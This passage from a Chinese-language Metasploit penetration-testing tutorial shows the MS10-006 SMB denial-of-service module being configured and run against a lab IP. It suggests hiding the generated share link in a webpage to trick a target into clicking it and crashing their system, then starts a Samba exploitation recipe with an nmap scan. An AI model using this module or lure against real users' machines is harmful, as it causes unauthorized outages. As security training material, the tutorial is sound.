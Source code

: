```
msf > use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop
msf auxiliary(ms10_006_negotiate_response_loop) > show options
Module options (auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The local host..
SRVPORT 445 yes The SMB port to listen
SSL false no Negotiate SSL..
SSLCert no Path to a custom SSL
SSLVersion SSL3 no Specify the version.. 
```

让我们快速设置各种参数。要查找的唯一参数是 `SRVHOST`，即本地主机 IP 地址或渗透测试仪 IP 地址。

```
msf auxiliary(ms10_006_negotiate_response_loop) > set SRVHOST 192.168.56.101
SRVHOST => 192.168.56.101 
```

## 它是如何工作的。。。

我们将使用 `run`命令执行辅助模块。一旦模块执行，它将生成一个共享文件夹链接，该链接必须发送到目标。在这种情况下，生成的链接是 `\\192.168.56.101\Shared\Anything`。

```
msf auxiliary(ms10_006_negotiate_response_loop) > run
[*] Starting the malicious SMB service...
[*] To trigger, the vulnerable client should try to access: \\192.168.56.101\Shared\Anything
[*] Server started. 
```

现在，我们可以制作一个网页，将此链接附加到网页上，然后将其发送给目标用户，从而使链接看起来不那么可疑。一旦目标单击此链接，系统将完全冻结并导致完全拒绝服务，从而导致重新启动系统。

# 利用 Linux（Ubuntu）机器

Linux 也是继 Windows 之后广泛使用的操作系统之一。在前面的几篇文章中，我们看到了如何利用可用服务中的关键缺陷来渗透 Windows 机器。在本食谱中，我们将讨论 Linux 操作系统。我们将在这个配方中使用 Ubuntu9.0，但这个过程将类似于利用运行 Samba 服务的 Linux 和 Solaris 的任何风格。让我们继续做这个食谱吧。

## 准备好了吗

我们将首先扫描目标 Linux 机器，以收集有关可用服务的信息。让我们快速执行 Nmap 扫描并分析其结果：

```
msf > nmap -sT 192.168.56.101
[*] exec: nmap 192.168.56.101
Starting Nmap 5.20 ( http://nmap.org ) at 2011-11-05 13:35 IST
Warning: Traceroute does not support idle or connect scan, disabling...
Nmap scan report for 192.168.56.101
Host is up (0.00048s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.2.3 ((Ubuntu) PHP/5.2.1)
|_html-title: Index of /
139/tcp open netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
445/tcp open netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
MAC Address: 08:00:27:34:A8:87 (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ) 
```
